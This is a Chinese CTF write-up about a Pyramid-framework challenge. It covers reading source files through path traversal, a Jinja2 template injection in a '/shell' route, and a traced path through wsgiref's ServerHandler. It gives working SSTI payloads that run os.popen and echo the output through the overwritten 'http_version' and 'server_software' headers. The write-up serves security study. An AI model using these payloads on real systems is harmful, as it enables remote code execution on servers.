# pyramid 框架无回显挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/16068  
> **文章ID**: 16068

---

# pyramid 框架无回显挖掘

## 前言

国城杯出了一道 pyramid 框架的题目，考点就是 pyramid 无回显，不出网的解决办法，当然最后也是能够出网的，这里从不出网的角度来进行学习

## 解题



叫用户登录

爆破一手弱密码，但是有验证码，不会  
最后提示了密码纯数字，猜的 123456

然后直接进去了



出题人玩一手高雅


随便点点  
观察我们的 url 头

```
http://125.70.243.22:31197/info?file=%E6%B4%9B%E7%A5%9E%E8%B5%8B%E5%9B%BE.txt

```

很明显可能存在任意文件读取或者包含

etc 是能够读取的，尝试读取 flag



没有，老老实实读源码吧


php 写的，这是最坑的一点，明明就是python 写的，这里卡了一会，然后尝试读取 app.py



读取出来了

```
import jinja2
from pyramid.config import Configurator
from pyramid.httpexceptions import HTTPFound
from pyramid.response import Response
from pyramid.session import SignedCookieSessionFactory
from wsgiref.simple_server import make_server
from Captcha import captcha_image_view, captcha_store
import re
import os

class User:
    def __init__(self, username, password):
        self.username = username
        self.password = password

users = {"admin": User("admin", "123456")}

def root_view(request):
    # 重定向到 /login
    return HTTPFound(location='/login')

def info_view(request):
    # 查看细节内容
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    file_name = request.params.get('file')
    file_base, file_extension = os.path.splitext(file_name)
    if file_name:
        file_path = os.path.join('/app/static/details/', file_name)
        try:
            with open(file_path, 'r', encoding='utf-8') as f:
                content = f.read()
                print(content)
        except FileNotFoundError:
            content = "文件未找到。"
    else:
        content = "未提供文件名。"

    return {'file_name': file_name, 'content': content, 'file_base': file_base}

def home_view(request):
    # 主路由
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    detailtxt = os.listdir('/app/static/details/')
    picture_list = [i[:i.index('.')] for i in detailtxt]
    file_contents = {}
    for picture in picture_list:
        with open(f"/app/static/details/{picture}.txt", "r", encoding='utf-8') as f:
            file_contents[picture] = f.read(80)

    return {'picture_list': picture_list, 'file_contents': file_contents}

def login_view(request):
    if request.method == 'POST':
        username = request.POST.get('username')
        password = request.POST.get('password')
        user_captcha = request.POST.get('captcha', '').upper()

        if user_captcha != captcha_store.get('captcha_text', ''):
            return Response("验证码错误，请重试。")
        user = users.get(username)
        if user and user.password == password:
            request.session['username'] = username
            return Response("登录成功！&lt;a href='/home'&gt;点击进入主页&lt;/a&gt;")
        else:
            return Response("用户名或密码错误。")
    return {}

def shell_view(request):
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    expression = request.GET.get('shellcmd', '')
    blacklist_patterns = [r'.*length.*',r'.*count.*',r'.*[0-9].*',r'.*\..*',r'.*soft.*',r'.*%.*']
    if any(re.search(pattern, expression) for pattern in blacklist_patterns):
        return Response('wafwafwaf')
    try:
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({"request": request})
        if result != None:
            return Response('success')
        else:
            return Response('error')
    except Exception as e:
        return Response('error')


def main():
    session_factory = SignedCookieSessionFactory('secret_key')
    with Configurator(session_factory=session_factory) as config:
        config.include('pyramid_chameleon')  # 添加渲染模板
        config.add_static_view(name='static', path='/app/static')
        config.set_default_permission('view')  # 设置默认权限为view

        # 注册路由
        config.add_route('root', '/')
        config.add_route('captcha', '/captcha')
        config.add_route('home', '/home')
        config.add_route('info', '/info')
        config.add_route('login', '/login')
        config.add_route('shell', '/shell')
        # 注册视图
        config.add_view(root_view, route_name='root')
        config.add_view(captcha_image_view, route_name='captcha')
        config.add_view(home_view, route_name='home', renderer='home.pt', permission='view')
        config.add_view(info_view, route_name='info', renderer='details.pt', permission='view')
        config.add_view(login_view, route_name='login', renderer='login.pt')
        config.add_view(shell_view, route_name='shell', renderer='string', permission='view')

        config.scan()
        app = config.make_wsgi_app()
        return app


if __name__ == "__main__":
    app = main()
    server = make_server('0.0.0.0', 6543, app)
    server.serve_forever()

```

这里就不跟着出题人的源码走了，和出题人沟通过，它想打不出网无回显的，但是一些原因，导致不能这样设置 docker ，然后无奈就只能禁用一些命令然后限制反弹 shell  
这里我们直接写一个纯享版本的代码

```
import jinja2
from pyramid.config import Configurator
from pyramid.response import Response
from pyramid.view import view_config
from wsgiref.simple_server import make_server

def get_jinja2_environment():
    return jinja2.Environment(loader=jinja2.FileSystemLoader('templates'))


@view_config(route_name='home', renderer='home.pt')
def home_view(request):
    expression = request.GET.get('expression', '')

    # 模板注入漏洞: 直接渲染用户输入的字符串
    try:
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({"request": request})
        return Response(f"渲染结果: {result}")
    except Exception as e:
        return Response(f"错误: {str(e)}")


def main():
    with Configurator() as config:
        config.add_route('home', '/')
        config.add_view(home_view, route_name='home')

        # 设置 Jinja2 模板环境
        config.add_renderer('.pt', get_jinja2_environment())

        # 创建应用
        app = config.make_wsgi_app()
        return app


if __name__ == "__main__":
    app = main()
    server = make_server('0.0.0.0', 6543, app)
    server.serve_forever()

```

我是准备打 header 回显的，内存马的话应该会复杂许多，按照 flask 的思路的话我们这里需要去找到类似于 flask 中的 WSGIRequestHandler 的对象来处理我们的请求的

这里调试分析一波  
按照栈  
⚠️upload failed, check dev console

我们还是按照以前的思路，寻找处理请求的过程

```
def process_request(self, request, client_address):
"""Call finish_request.

Overridden by ForkingMixIn and ThreadingMixIn.

"""
self.finish_request(request, client_address)
self.shutdown_request(request)

```

应该还是 finish\_request

```
def finish_request(self, request, client_address):
"""Finish one request by instantiating RequestHandlerClass."""
self.RequestHandlerClass(request, client_address, self)

```

这里实例化了我们的处理类

然后就开始调用处理类的 handle 方法了

方法如下

```
def handle(self):
"""Handle a single HTTP request"""

self.raw_requestline = self.rfile.readline(65537)
if len(self.raw_requestline) > 65536:
    self.requestline = ''
    self.request_version = ''
    self.command = ''
    self.send_error(414)
    return

if not self.parse_request(): # An error code has been sent, just exit
    return

handler = ServerHandler(
    self.rfile, self.wfile, self.get_stderr(), self.get_environ(),
    multithread=False,
)
handler.request_handler = self      # backpointer for logging
handler.run(self.server.get_app())

```

然后 run 方法是具体的实现



然后一看就是在 finish\_response 方法，重点很像，可以看到和 flask 一样应该都是在 write 方法

```
try:
if not self.result_is_file() or not self.sendfile():
    for data in self.result:
        self.write(data)
    self.finish_content()

```

跟进 write 方法  
这里如何选择跟进什么方法其实只要一个宗旨，构造我们的回显和解析我们的请求



跟进 send\_headers 方法

```
def send_headers(self):
"""Transmit headers to the client, via self._write()"""
self.cleanup_headers()
self.headers_sent = True
if not self.origin_server or self.client_is_modern():
    self.send_preamble()
    self._write(bytes(self.headers))

```

一开始以为跟过了，看见 cleanup\_headers 方法了

```
def cleanup_headers(self):
"""Make any necessary header changes or defaults

Subclasses can extend this to add other defaults.
"""
if 'Content-Length' not in self.headers:
    self.set_content_length()

```

原来只是初始化我们必要的 header  
跟进 send\_preamble 方法

```
def send_preamble(self):
"""Transmit version/status/date/server, via self._write()"""
if self.origin_server:
    if self.client_is_modern():
        self._write(('HTTP/%s %s\r\n' % (self.http_version,self.status)).encode('iso-8859-1'))
        if 'Date' not in self.headers:
            self._write(
                ('Date: %s\r\n' % format_date_time(time.time())).encode('iso-8859-1')
            )
        if self.server_software and 'Server' not in self.headers:
            self._write(('Server: %s\r\n' % self.server_software).encode('iso-8859-1'))
else:
    self._write(('Status: %s\r\n' % self.status).encode('iso-8859-1'))

```

这也是我们的源头，可以看见 http\_version 就是在这里赋值的



可以看到 self 是

```
<wsgiref.simple_server.ServerHandler object at 0x00000227DAC28850>

```

那么按照 flask 一样的思路，去寻找这个对象

```
http://127.0.0.1:6543/?expression={{lipsum.__spec__.__init__.__globals__.sys.modules}}

```



找到我们的 wsgiref moudle

```
http://127.0.0.1:6543/?expression={{lipsum.__spec__.__init__.__globals__.sys.modules.wsgiref.simple_server.__dict__}}

```

获取到 simple\_server 对象，我们需要寻找 handler



```
http://127.0.0.1:6543/?expression={{lipsum.__spec__.__init__.__globals__.sys.modules.wsgiref.simple_server.ServerHandler}}

```

然后就是一样的 setter 方法  
尝试修改它的属性

```
http://127.0.0.1:6543/?expression={{lipsum.__globals__.__builtins__.setattr(lipsum.__spec__.__init__.__globals__.sys.modules.wsgiref.simple_server.ServerHandler,"http_version",lipsum.__globals__.__builtins__.__import__('os').popen('echo%20success').read())}}

```



成功，一样的我们可以寻找还有没有其他可以入手的点

还是刚刚的位置

```
def send_preamble(self):
"""Transmit version/status/date/server, via self._write()"""
if self.origin_server:
    if self.client_is_modern():
        self._write(('HTTP/%s %s\r\n' % (self.http_version,self.status)).encode('iso-8859-1'))
        if 'Date' not in self.headers:
            self._write(
                ('Date: %s\r\n' % format_date_time(time.time())).encode('iso-8859-1')
            )
        if self.server_software and 'Server' not in self.headers:
            self._write(('Server: %s\r\n' % self.server_software).encode('iso-8859-1'))
else:
    self._write(('Status: %s\r\n' % self.status).encode('iso-8859-1'))

```

看到 server\_software



尝试修改一下呢

```
http://127.0.0.1:6543/?expression={{lipsum.__globals__.__builtins__.setattr(lipsum.__spec__.__init__.__globals__.sys.modules.wsgiref.simple_server.ServerHandler,"server_software",lipsum.__globals__.__builtins__.__import__('os').popen('echo%20success').read())}}
```



可以发现也是成功了
